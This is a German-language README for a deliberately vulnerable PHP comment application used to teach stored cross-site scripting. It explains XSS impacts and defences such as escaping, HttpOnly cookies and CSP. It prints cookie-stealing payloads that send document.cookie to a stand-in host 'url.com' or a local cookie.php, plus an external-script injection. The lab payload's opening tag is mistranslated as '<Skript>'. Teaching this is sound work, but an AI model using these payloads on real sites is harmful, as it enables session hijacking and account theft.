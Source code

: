 # XSS-Schwachstellen/Angriffe

Cross-Site Scripting (XSS) ist ein clientseitiger Code-Injection-Angriff. Der Angreifer zielt darauf ab, schädliche Skripte in einem Webbrowser des Opfers auszuführen, indem er schädlichen Code in eine legitime Webseite oder Webanwendung einfügt. Der eigentliche Angriff erfolgt, wenn das Opfer die Webseite oder Webanwendung besucht, die den bösartigen Code ausführt. Die Webseite oder Webanwendung wird zu einem Vehikel, um das bösartige Skript an den Browser des Benutzers zu übermitteln. Anfällige Vehikel, die häufig für Cross-Site-Scripting-Angriffe verwendet werden, sind Foren, Message Boards und Webseiten, die Kommentare zulassen.

Eine Webseite oder Webanwendung ist anfällig für XSS, wenn sie nicht bereinigte Benutzereingaben in der von ihr generierten Ausgabe verwendet. Diese Benutzereingaben müssen dann vom Browser des Opfers geparst werden. XSS-Angriffe sind in VBScript, ActiveX, Flash und sogar CSS möglich. Sie kommen jedoch am häufigsten in JavaScript vor, vor allem, weil JavaScript für die meisten Surferlebnisse von grundlegender Bedeutung ist.

## Was kann der Angreifer mit JavaScript machen?

XSS-Schwachstellen werden als weniger gefährlich wahrgenommen als beispielsweise SQL-Injection-Schwachstellen. Die Folgen der Möglichkeit, JavaScript auf einer Webseite auszuführen, mögen auf den ersten Blick nicht schlimm erscheinen. Die meisten Webbrowser führen JavaScript in einer sehr streng kontrollierten Umgebung aus. JavaScript hat eingeschränkten Zugriff auf das Betriebssystem des Benutzers und die Dateien des Benutzers. JavaScript kann jedoch immer noch gefährlich sein, wenn es als Teil schädlicher Inhalte missbraucht wird:

* Bösartiges JavaScript hat Zugriff auf alle Objekte, auf die der Rest der Webseite Zugriff hat. Dies beinhaltet den Zugriff auf die Cookies des Benutzers. Cookies werden häufig verwendet, um Sitzungstoken zu speichern. Wenn ein Angreifer das Sitzungscookie eines Benutzers erhalten kann, kann er sich als dieser Benutzer ausgeben, Aktionen im Namen des Benutzers ausführen und Zugriff auf die sensiblen Daten des Benutzers erlangen.
* JavaScript kann das Browser-DOM lesen und beliebige Änderungen daran vornehmen. Glücklicherweise ist dies nur innerhalb der Seite möglich, auf der JavaScript ausgeführt wird.
* JavaScript kann das XMLHttpRequest-Objekt verwenden, um HTTP-Anforderungen mit beliebigem Inhalt an beliebige Ziele zu senden.
* JavaScript in modernen Browsern kann HTML5-APIs verwenden. Beispielsweise kann es Zugriff auf die Geolokalisierung des Benutzers, die Webcam, das Mikrofon und sogar auf bestimmte Dateien aus dem Dateisystem des Benutzers erhalten. Die meisten dieser APIs erfordern eine Benutzeranmeldung, aber der Angreifer kann Social Engineering verwenden, um diese Einschränkung zu umgehen.

In Kombination mit Social Engineering ermöglichen die oben genannten Methoden Kriminellen, fortschrittliche Angriffe durchzuführen, darunter Cookie-Diebstahl, das Einschleusen von Trojanern, Keylogging, Phishing und Identitätsdiebstahl. XSS-Schwachstellen bieten die perfekte Grundlage, um Angriffe zu ernsteren auszuweiten. Cross-Site Scripting kann auch in Verbindung mit anderen Angriffsarten verwendet werden, beispielsweise Cross-Site Request Forgery (CSRF).

## Wie Cross-Site-Scripting funktioniert

Ein typischer XSS-Angriff besteht aus zwei Phasen:

* Um schädlichen JavaScript-Code im Browser eines Opfers auszuführen, muss ein Angreifer zunächst einen Weg finden, schädlichen Code (Payload) in eine Webseite einzuschleusen, die das Opfer besucht.
* Danach muss das Opfer die Webseite mit dem bösartigen Code besuchen. Richtet sich der Angriff gegen bestimmte Opfer, kann der Angreifer Social Engineering und/oder Phishing verwenden, um eine bösartige URL an das Opfer zu senden.

Damit Schritt eins möglich ist, muss die anfällige Website Benutzereingaben direkt in ihre Seiten aufnehmen. Ein Angreifer kann dann eine schädliche Zeichenfolge einfügen, die innerhalb der Webseite verwendet und vom Browser des Opfers als Quellcode behandelt wird. Es gibt auch Varianten von XSS-Angriffen, bei denen der Angreifer den Benutzer mithilfe von Social Engineering zum Besuch einer URL verleitet und die Payload Teil des Links ist, auf den der Benutzer klickt.

## Cookies mit XSS stehlen

Kriminelle verwenden XSS oft, um Cookies zu stehlen. Dadurch können sie sich als Opfer ausgeben. Der Angreifer kann das Cookie auf viele Arten an seinen eigenen Server senden. Eine davon besteht darin, das folgende clientseitige Skript im Browser des Opfers auszuführen:

```
<script>
window.location="http://url.com/?cookie=" + document.cookie
</script>
```

* Der Angreifer fügt eine Nutzlast in die Datenbank der Website ein, indem er ein anfälliges Formular mit schädlichem JavaScript-Inhalt sendet.
* Das Opfer fordert die Webseite vom Webserver an.
* Der Webserver stellt dem Browser des Opfers die Seite mit der Nutzlast des Angreifers als Teil des HTML-Bodys bereit.
* Der Browser des Opfers führt das bösartige Skript aus, das im HTML-Text enthalten ist. In diesem Fall sendet es das Cookie des Opfers an den Server des Angreifers.
* Der Angreifer muss jetzt einfach das Cookie des Opfers extrahieren, wenn die HTTP-Anfrage beim Server ankommt.
* Der Angreifer kann jetzt das gestohlene Cookie des Opfers zur Identitätsfälschung verwenden.


### `<script>` Tag
The `<script>` tag is the most straightforward XSS payload. A script tag can reference external JavaScript code or you can embed the code within the script tag itself.

## Cross-Site-Scripting-Angriffsvektoren
Im Folgenden finden Sie eine Liste gängiger XSS-Angriffsvektoren, die ein Angreifer verwenden könnte, um die Sicherheit einer Website oder Webanwendung durch einen XSS-Angriff zu gefährden. Eine umfangreichere Liste von Beispielen für XSS-Nutzdaten wird von der OWASP-Organisation gepflegt: XSS Filter Evasion Cheat Sheet.

```
<!-- External script -->
<script src=http://url.com/xss.js></script>
<!-- Embedded script -->
<script> alert("XSS"); </script>
```
## XSS verhindern

Um sich vor XSS zu schützen, müssen Sie Ihre Eingabe bereinigen. Ihr Anwendungscode sollte niemals als Eingabe empfangene Daten direkt an den Browser ausgeben, ohne sie auf schädlichen Code zu überprüfen.

Das Verhindern von Cross-Site-Scripting (XSS) ist nicht einfach. Spezifische Präventionstechniken hängen vom Subtyp der XSS-Schwachstelle, vom Nutzungskontext der Benutzereingaben und vom Programmier-Framework ab. Es gibt jedoch bestimmte allgemeine strategische Prinzipien, die Sie befolgen sollten, um Ihre Webanwendung sicher zu halten.

* Bewusstsein schulen und aufrechterhalten – Um Ihre Webanwendung sicher zu halten, muss sich jeder, der an der Erstellung der Webanwendung beteiligt ist, der Risiken bewusst sein, die mit XSS-Schwachstellen verbunden sind. Sie sollten allen Ihren Entwicklern, QA-Mitarbeitern, DevOps und SysAdmins geeignete Sicherheitsschulungen anbieten. Sie können beginnen, indem Sie sie auf diese Seite verweisen.
* Benutzereingaben nicht vertrauen – Behandeln Sie alle Benutzereingaben als nicht vertrauenswürdig. Jede Benutzereingabe, die als Teil der HTML-Ausgabe verwendet wird, birgt das Risiko eines XSS. Behandeln Sie Eingaben von authentifizierten und/oder internen Benutzern genauso wie öffentliche Eingaben.
* Verwenden Sie Escape/Kodierung - Verwenden Sie eine geeignete Escape-/Kodierungstechnik, je nachdem, wo Benutzereingaben verwendet werden sollen: HTML-Escape, JavaScript-Escape, CSS-Escape, URL-Escape usw. Verwenden Sie vorhandene Bibliotheken zum Escape, schreiben Sie keine eigenen, es sei denn absolut notwendig.
* HTML bereinigen – Wenn die Benutzereingabe HTML enthalten muss, können Sie sie nicht maskieren/codieren, da dies gültige Tags beschädigen würde. Verwenden Sie in solchen Fällen eine vertrauenswürdige und verifizierte Bibliothek, um HTML zu parsen und zu bereinigen. Wählen Sie die Bibliothek entsprechend Ihrer Entwicklungssprache aus, z. B. HtmlSanitizer für .NET oder SanitizeHelper für Ruby on Rails.
* HttpOnly-Flag setzen – Um die Folgen einer möglichen XSS-Schwachstelle abzumildern, setzen Sie das HttpOnly-Flag für Cookies. Wenn Sie dies tun, sind solche Cookies nicht über clientseitiges JavaScript zugänglich.
* Verwenden Sie eine Inhaltssicherheitsrichtlinie – Um die Folgen einer möglichen XSS-Schwachstelle zu mindern, verwenden Sie auch eine Inhaltssicherheitsrichtlinie (CSP). CSP ist ein HTTP-Antwortheader, mit dem Sie die dynamischen Ressourcen deklarieren können, die abhängig von der Anforderungsquelle geladen werden dürfen.
* Scannen Sie regelmäßig (mit Acunetix) – XSS-Schwachstellen können von Ihren Entwicklern oder über externe Bibliotheken/Module/Software eingeführt werden. Sie sollten Ihre Webanwendungen regelmäßig mit einem Web-Schwachstellen-Scanner wie Acunetix scannen. Wenn Sie Jenkins verwenden, sollten Sie das Acunetix-Plugin installieren, um jeden Build automatisch zu scannen.

## Voraussetzungen

Sie müssen über die folgenden Programme/Pakete verfügen, um dieses Projekt auszuführen.

* Apache: 2.4.46
* PHP: 7.2.33
* MariaDB: 10.4.14
* phpMyAdmin: 5.0.2

Hinweis: Der XAMPP-Server umfasst alle oben genannten Technologien. https://www.apachefriends.org/download.html

## Cookies mit dem XSS-Entwicklungsansatz stehlen

Es wird eine einfache PHP-basierte Webanwendung entwickelt, die über Post-Kommentar-Funktionalität verfügt, Kommentare in Sitzungen anstelle von Datenbanken speichert, nur um den XSS-Angriff zu erklären. Wenn ein Benutzer bösartigen Code in das Kommentartextfeld kommentiert, wird dieser ausgeführt, wenn ein anderer Benutzer versucht, dieselbe Webanwendung zu besuchen. Der bösartige Code kann dem Besucher Schaden zufügen. Hier habe ich verwendet, um ein Cookie an eine andere Seite zu senden. Diese Seite kann ein Link zu einem anderen Server sein, der das Cookie der Benutzer speichert.

* Post.php öffnen und unter folgendem Code eingeben und absenden.
```
<Skript>
window.location="cookie.php/?cookie=" + document.cookie
</script>
```
* Besuchen Sie erneut dieselbe Seite post.php und Sie werden automatisch zu cookie.php weitergeleitet, wo Sie das Cookie Ihres Browsers sehen.
